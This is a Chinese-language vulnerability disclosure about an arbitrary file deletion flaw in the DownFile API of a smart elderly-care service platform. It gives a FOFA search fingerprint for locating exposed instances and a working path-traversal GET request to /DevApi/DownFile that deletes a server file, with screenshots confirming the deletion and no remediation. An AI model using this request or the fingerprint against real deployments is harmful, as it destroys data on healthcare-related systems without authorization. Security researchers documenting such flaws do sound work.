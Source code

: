 # 广西金中软件集团有限公司智慧医养服务平台DownFile存在任意文件删除漏洞

# 一、漏洞简介
广西金中软件集团有限公司前身成立于1999年，隶属于广西电信下的三产公司——金中信息产业有限公司，是一家集软件开发、网站建设、网络工程、系统集成和维护服务、通信增值业务和ISP运营服务于一体的高科技IT企业。广西金中软件集团有限公司智慧医养服务平台DownFile存在任意文件删除漏洞。

# 二、影响版本
+ 智慧医养服务平台

# 三、资产测绘
+ fofa`body="Content/css/Login/images/gtx-main-bg00004.png"`
+ 特征

![1721291803179-fa0d3eb8-c0c1-498b-929f-3a07eab9d2cc.png](./img/xow1UnbQOxtonEIR/1721291803179-fa0d3eb8-c0c1-498b-929f-3a07eab9d2cc-888430.png)

# 四、漏洞复现
1. 当前文件存在

```plain
/Content/Upload/202407/18/1.aspx
```

![1721304183404-85076103-3aca-4afb-8b6c-edf61a5f8dd5.png](./img/xow1UnbQOxtonEIR/1721304183404-85076103-3aca-4afb-8b6c-edf61a5f8dd5-791645.png)

2. poc

```plain
GET /DevApi/DownFile?FileName=../Content/Upload/202407/18/1.aspx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
```

![1721304206313-487befae-1b4b-4efe-a327-39177abf481e.png](./img/xow1UnbQOxtonEIR/1721304206313-487befae-1b4b-4efe-a327-39177abf481e-167095.png)

3. 当前文件已被删除

![1721304237409-e94de272-e4f1-44ee-acf4-e32bf23648ee.png](./img/xow1UnbQOxtonEIR/1721304237409-e94de272-e4f1-44ee-acf4-e32bf23648ee-178789.png)



> 更新: 2024-10-22 09:37:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ip0u6yn44ecxty0g>